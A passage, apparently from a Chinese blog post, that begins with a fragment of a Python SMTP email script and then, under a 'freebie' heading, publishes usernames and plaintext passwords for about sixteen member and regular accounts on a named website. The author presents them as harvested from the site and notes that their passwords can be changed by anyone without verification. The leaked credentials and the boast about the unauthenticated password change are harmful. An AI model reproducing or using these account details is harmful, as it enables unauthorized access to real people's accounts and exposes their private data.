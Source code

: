 ````
message['To'] = receive
# print(message.as_string())
#登录邮箱，给本邮箱发送邮件一封
smtp = SMTP_SSL(smtpserver) #连接到服务器
smtp.login(sender,passwd)   #登录到邮箱
smtp.sendmail(sender, receive, message.as_string())
smtp.quit()


````
### change your passwd
>![image.png](http://upload-images.jianshu.io/upload_images/6967995-7fe375c3072cc951.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




### 福利
这里扔出来几个运气不好的会员帐号，也来确保我有拿到真的数据，真的可以登录[福利网站](sstushu.net/)。

（同时发现帐号的密码是可以任何一个人不需要验证的情况下修改的，大家不需要修改这几个倒霉的帐号了）

**会员帐号**
````
log:fzyvin
passwd:abc123

log:wssbwssb
passwd:wssbwssb

log:nnk126
passwd:123456789

log:bbs8960334
passwd:bbs8960334 

log:1162512354
passwd:1162512354

log:tianhuan 
passwd:tianhuan
````
**普通帐号**

````
log:adshn
passwd:123456789             
log:592057962
passwd:123456                  
log:1284783709
passwd:1284783709                 
log:123456789012
passwd:123456789                
log:592057962
passwd:123456                   
log:1284783709
passwd:1284783709               
log:1007404289 
passwd:1007404289                 
log:qq5825142
passwd:qq123456                 
log:kira03
passwd:123123               
log:qwe123456
passwd:123456                  
````